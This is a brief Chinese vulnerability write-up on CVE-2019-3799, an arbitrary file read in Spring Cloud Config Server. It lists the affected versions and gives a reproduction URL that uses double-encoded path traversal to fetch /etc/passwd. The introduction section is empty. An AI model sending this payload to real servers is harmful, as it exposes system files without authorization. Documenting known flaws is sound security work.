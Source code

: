 （CVE-2019-3799）Spring Cloud Config Server 任意文件读取
========================================================

一、漏洞简介
------------

二、漏洞影响
------------

Spring Cloud Config 2.1.0 to 2.1.1

Spring Cloud Config 2.0.0 to 2.0.3

Spring Cloud Config 1.4.0 to 1.4.5

其他不受支持的老版本 （如Spring Cloud Config1.3及其以下版本）

三、复现过程
------------

    http://www.0-sec.org/test/pathtraversal/master/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f../etc/passwd
